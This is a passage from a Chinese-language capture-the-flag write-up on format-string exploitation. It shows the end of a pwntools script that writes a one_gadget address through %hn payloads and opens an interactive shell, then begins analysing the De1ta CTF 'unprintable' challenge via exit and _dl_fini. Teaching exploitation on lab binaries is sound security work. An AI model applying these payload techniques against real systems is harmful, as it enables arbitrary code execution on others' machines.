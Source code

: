 ```

onegadget = libc_base+0x4f322
offset0 = stack &amp; 0xffff
offset1 = onegadget &amp; 0xffff
offset2 = (onegadget &gt;&gt; 16) &amp; 0xffff
log.success('onegadget =&gt; `{``}`'.format(hex(onegadget)))
log.success('offset0 =&gt; `{``}`'.format(hex(offset0)))
log.success('offset1 =&gt; `{``}`'.format(hex(offset1)))
log.success('offset2 =&gt; `{``}`'.format(hex(offset2)))
#gdb.attach(io)
payload = "%"+str(offset0+8)+"c"+"%9$hnxxxx\x00"
io.sendline(payload)
io.recvuntil("xxxx")
payload = "%"+str(offset1)+"c"+"%35$hnxxxx\x00"
io.sendline(payload)
io.recvuntil("xxxx")
payload = "%"+str(offset0+10)+"c"+"%9$hnxxxx\x00"
io.sendline(payload)
io.recvuntil("xxxx")
payload = "%"+str(offset2)+"c"+"%35$hnxxxx\x00"
io.sendline(payload)
io.recvuntil("xxxx")
io.sendline("66666666\x00")
io.interactive()
```



## 0x2.De1ta ctf-unprintable

这题可以说是上一题的升级版

首先检查保护

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01a7b5f5ac3f0b03ea.jpg)

IDA分析

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t018dc2690e0bacc0dd.jpg)

程序首先给我们了栈地址，然后关闭标准输出，只有一次格式化字符串利用机会，之后就通过exit函数退出

由于第一次printf调用栈中不存在可利用的数据

[![](https://p2.ssl.qhimg.com/t01be5abb3dbb75e6bb.png)](https://p2.ssl.qhimg.com/t01be5abb3dbb75e6bb.png)

根据上一题修改返回地址的利用，我们无法通过第一次printf直接修改返回地址，因此需要利用别的办法

在exit函数中会调用_dl_fini函数

[![](https://p1.ssl.qhimg.com/t0113e36dcd163ba571.jpg)](https://p1.ssl.qhimg.com/t0113e36dcd163ba571.jpg)
